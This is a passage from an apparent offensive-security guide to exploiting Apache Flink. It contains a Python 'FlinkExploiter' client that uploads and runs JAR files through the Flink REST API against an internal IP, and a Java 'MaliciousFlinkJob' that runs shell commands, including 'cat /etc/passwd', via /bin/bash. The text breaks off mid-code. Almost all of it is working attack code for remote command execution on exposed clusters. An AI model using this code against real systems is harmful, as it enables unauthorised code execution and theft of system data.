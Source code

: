 ```python
                f"{self.base_url}/jars/upload",
                files=files
            )
        
        if response.status_code == 200:
            jar_id = response.json()['filename']
            return jar_id
        return None
    
    def run_jar(self, jar_id, entry_class, program_args=""):
        """Execute uploaded JAR"""
        data = {
            "entryClass": entry_class,
            "programArgs": program_args
        }
        
        response = self.session.post(
            f"{self.base_url}/jars/{jar_id}/run",
            json=data
        )
        
        if response.status_code == 200:
            return response.json()
        return None
    
    def stop_job(self, job_id):
        """Stop running job"""
        response = self.session.patch(f"{self.base_url}/jobs/{job_id}")
        return response.status_code == 202

# Usage example
exploiter = FlinkExploiter("192.168.1.100")
cluster_info = exploiter.get_cluster_info()
print(json.dumps(cluster_info, indent=2))
```

#### Crafting Malicious Flink Jobs

```java
// MaliciousFlinkJob.java - Example payload
import org.apache.flink.api.common.functions.MapFunction;
import org.apache.flink.api.java.DataSet;
import org.apache.flink.api.java.ExecutionEnvironment;

public class MaliciousFlinkJob {
    public static void main(String[] args) throws Exception {
        ExecutionEnvironment env = ExecutionEnvironment.getExecutionEnvironment();
        
        // Payload execution
        DataSet<String> commands = env.fromElements("id", "hostname", "cat /etc/passwd");
        
        DataSet<String> results = commands.map(new CommandExecutor());
        
        results.print();
        env.execute("System Information Gathering");
    }
    
    public static class CommandExecutor implements MapFunction<String, String> {
        @Override
        public String map(String command) throws Exception {
            ProcessBuilder pb = new ProcessBuilder("/bin/bash", "-c", command);
            Process process = pb.start();
            
            // Read command output
```